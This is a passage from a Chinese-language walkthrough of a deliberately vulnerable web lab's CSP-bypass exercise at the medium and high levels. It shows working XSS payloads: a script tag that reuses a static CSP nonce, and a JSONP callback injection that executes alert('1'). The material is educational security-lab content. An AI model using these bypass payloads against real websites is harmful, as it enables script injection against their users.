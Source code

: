 ![image-20250111210002733](../../_media/image-20250111210002733.png)

不再限定白名单了，而是含有这个`script-src`来源的许可证就OK了。

```
Content-Security-Policy: script-src 'self' 'unsafe-inline' 'nonce-TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=';
```



payload:

```
<script nonce='TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA='>alert(1)</script>
```



### Security High

看源代码，限定了来源self，POST方式发送

```
function clickButton() {
    var s = document.createElement("script");
    s.src = "source/jsonp.php?callback=solveSum";
    document.body.appendChild(s);
}
```

照着代码写payload，就是触发jsonp.php不是solveSum了，而是`alert('1')`

```
include=<script src="source/jsonp.php?callback=alert('1');"></script>
```

HackBar发送即可。

![image-20250111211036882](../../_media/image-20250111211036882.png)
